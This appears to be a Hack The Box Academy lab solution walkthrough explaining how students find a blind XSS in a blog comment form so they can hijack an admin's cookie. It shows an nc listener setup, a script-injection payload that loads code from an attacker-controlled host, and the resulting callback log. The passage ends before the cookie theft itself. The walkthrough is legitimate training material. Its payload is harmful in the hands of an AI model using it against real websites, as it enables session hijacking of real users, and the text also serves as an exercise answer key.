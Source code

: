 ### "What is the value of the 'flag' cookie?"

After spawning the target machine, students need to visit it's`/assessment` page and notice that it says "comments must be approved by an admin":

![[HTB Solutions/CBBH/z. images/d39e709e6f4cc9e326a8faa6ae18b0db_MD5.jpg]]

Therefore, students need to hijack the cookie of the admin. Scrolling down, students will notice that there is a post named "Welcome to Security Blog", thus, they need to click on it:

![[HTB Solutions/CBBH/z. images/933b1e47d29ea96f3cade2b981dfa93d_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/223a69defa291c917169688395bef937_MD5.jpg]]

Students need to test all the fields with XSS payloads, however, they will come to know that the "Website" field is vulnerable to a blind XSS; to test the fields, students first need to start an `nc` listener:

Code: shell

```shell
nc -nvlp PWNPO
```

```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Then, they need to use the payload `'><script src="http://PWNIP:PWNPO/FieldName"></script>` in the all of the fields to see which ones will request a file to the `nc` listener:

![[HTB Solutions/CBBH/z. images/c4cd6f9c0e80544de742625f8e3c8dde_MD5.jpg]]

However, the name and email fields are to be left out:

![[HTB Solutions/CBBH/z. images/0d78773b0898381a576290898820a153_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/496c44ee847708b6b9db7ca5cf736561_MD5.jpg]]

After clicking on "Post Comment", students will notice that the request came for `/WebsiteField`:

```javascript
Ncat: Connection from 10.129.43.173.
Ncat: Connection from 10.129.43.173:42254.
GET /WebsiteField HTTP/1.1
Host: 10.10.14.41:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4472.101 Safari/537.36
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
